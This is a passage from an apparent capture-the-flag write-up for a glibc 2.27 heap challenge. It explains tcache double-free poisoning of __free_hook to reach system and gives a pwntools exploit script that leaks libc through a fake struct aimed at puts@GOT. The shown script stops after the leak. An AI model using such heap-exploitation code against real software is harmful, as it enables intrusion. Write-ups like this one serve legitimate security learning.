 Then, since it is `2.27`, the `tcache` is used instead, so we can use `double
free` to poison the `tcache` and `malloc` the chunk onto `__free_hook`, then
rewrite it to `system` to get the shell.

`exp.py`

```python  
from pwn import *  
import json  
g_local=True  
context.log_level='debug'  
p = ELF('./challenge')  
e = ELF("./libc6_2.27.so")  
if g_local:  
	sh = process('./challenge')#env={'LD_PRELOAD':'./libc.so.6'}  
	ONE_GADGET_OFF = 0x4526a  
	UNSORTED_OFF = 0x3c4b78  
	gdb.attach(sh)  
else:  
	ONE_GADGET_OFF = 0x4526a  
	UNSORTED_OFF = 0x3c4b78  
	sh = remote("pwn.ctf.nullcon.net", 4002)  
	#ONE_GADGET_OFF = 0x4557a

def add(name, name_len, price=0):  
	sh.sendline("1")  
	sh.recvuntil("name length: ")  
	sh.sendline(str(name_len))  
	sh.recvuntil("name: ")  
	sh.sendline(name)  
	sh.recvuntil("price: ")  
	sh.sendline(str(price))  
	sh.recvuntil("> ")

def remove(idx):  
	sh.sendline("2")  
	sh.recvuntil("index: ")  
	sh.sendline(str(idx))  
	sh.recvuntil("> ")

def view():  
	sh.sendline("3")  
	ret = sh.recvuntil("{")  
	ret += sh.recvuntil("[")  
	ret += sh.recvuntil("]")  
	ret += sh.recvuntil("}")  
	sh.recvuntil("> ")  
	return ret

add("0", 0x38)  
add("1", 0x68)  
add("2", 0x68)  
remove(0)  
remove(1)  
#0x40 1 -> 0 -> 0 data

fake_struct = p64(0)  
fake_struct += p64(p.got["puts"])  
fake_struct += p64(0) + p8(0)

add(fake_struct, 0x38) #3  
leak = view()  
libc_addr = u64(leak[0x2e:0x2e+6] + '\x00\x00') - e.symbols["puts"]  
print hex(libc_addr)

```